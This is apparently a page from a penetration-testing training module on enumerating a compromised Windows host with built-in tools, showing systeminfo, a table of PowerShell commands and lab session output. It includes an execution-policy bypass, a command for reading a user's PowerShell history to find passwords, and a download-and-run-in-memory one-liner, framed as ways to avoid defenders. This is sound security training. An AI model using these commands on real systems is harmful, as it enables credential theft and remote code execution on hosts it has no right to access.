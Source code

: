 **Systeminfo**

![image](https://academy.hackthebox.com/storage/modules/143/systeminfo.png)

The `systeminfo` command, as seen above, will print a summary of the host's information for us in one tidy output. Running one command will generate fewer logs, meaning less of a chance we are noticed on the host by a defender.

***

### Harnessing PowerShell

PowerShell has been around since 2006 and provides Windows sysadmins with an extensive framework for administering all facets of Windows systems and AD environments. It is a powerful scripting language and can be used to dig deep into systems. PowerShell has many built-in functions and modules we can use on an engagement to recon the host and network and send and receive files.

Let's look at a few of the ways PowerShell can help us.

| **Cmd-Let**                                                                                                                | **Description**                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_execution\_policies?view=powershell-7.2) settings for each scope on a host.                                       |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`          | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |

Let's see them in action now on the `MS01` host.

**Quick Checks Using PowerShell**

Living Off the Land

```powershell-session
PS C:\htb> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   1.0.1.0    ActiveDirectory                     {Add-ADCentralAccessPolicyMember, Add-ADComputerServiceAcc...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...

PS C:\htb> Get-ExecutionPolicy -List
Get-ExecutionPolicy -List

        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process       Undefined
  CurrentUser       Undefined
 LocalMachine    RemoteSigned


PS C:\htb> whoami
nt authority\system

PS C:\htb> Get-ChildItem Env: | ft key,value

```